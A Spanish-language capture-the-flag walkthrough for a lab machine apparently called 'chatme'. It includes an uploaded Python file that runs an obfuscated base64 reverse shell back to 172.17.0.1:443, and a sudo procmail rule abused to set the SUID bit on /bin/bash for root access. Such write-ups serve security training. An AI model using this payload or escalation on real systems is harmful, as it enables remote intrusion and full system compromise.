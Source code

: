 nmap:80

![image](https://github.com/user-attachments/assets/6da55b66-44e5-45aa-b6bd-204f3656c0a3)


---
al ingresar a la pagina principal vemos esto

![image](https://github.com/user-attachments/assets/3924a298-cd07-4d62-a48b-c0491a3129b3)

entramos a "chat Right now" y es un .dl así que lo añadimos a "/etc/host" 

al entrar nos mandara a un tipo chat que hay

![image](https://github.com/user-attachments/assets/fa5ddaa2-dc0d-4b43-a35e-4a977eb12627)


con burpsuite capturamos y vemos que los archivos se suben en formato "PYZ"
en el terminal creo un virus.pyz:

    import os
    os.system("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx' | base64 -d | bash")

en la pagina https://www.revshells.com/ creamos una reverse en base64 y nos dara algo así: YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx que será lo que colocaremos en el código 

lo guardamos, colocamos el terminal en escucha y subimos el archivo
esperamos un rato y estamos dentro ahora escalamos
después de esperar un rato tenemos al conexión

![image](https://github.com/user-attachments/assets/6a6eb0ab-ff4a-4779-8a46-521a44c1e07a)

al hacer un sudo -l aparece: /usr/bin/procmail

![image](https://github.com/user-attachments/assets/db26a903-36f3-4593-a894-88fd0d403f01)


en la carpeta /tmp hay un archivo llamado "crontab.z4q2tt" que podemos modificar 
como no hay una carpeta de procmail creamos una llamada "procmailrc",  dentro colocamos el código: 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE

![image](https://github.com/user-attachments/assets/bbb826f0-fd6a-4090-bc9c-8e9d19ac7c36)


ahora probamos que el código funciona utilizando este comando

	 echo "test" | sudo /usr/bin/procmail -m .procmailrc

![image](https://github.com/user-attachments/assets/b1ed3ffa-2170-4e85-b29d-bfceddf9e825)


ahora colocamos el mismo comando pero lo modificamos 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE; chmod u+s /bin/bash

![[bash.png]]

volvemos a lanzar el comando:

     echo "test" | sudo /usr/bin/procmail -m .procmailrc

revisamos con "ls -la" el archivo en especifico de /bin/bash  y vemos que esta en rojo como queríamos con los permisos, ahora lanzamos un "bash -p"
![[dockerlabs/medio/chatme/root.png]]
y somos root!

